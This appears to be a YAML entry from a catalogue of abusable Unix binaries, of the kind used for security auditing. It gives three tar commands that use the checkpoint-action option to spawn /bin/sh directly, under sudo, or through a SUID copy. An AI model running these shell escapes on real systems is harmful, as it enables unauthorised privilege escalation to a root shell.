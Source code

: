 ```yaml
---
functions:
  execute-interactive:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  sudo-enabled:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  suid-limited:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

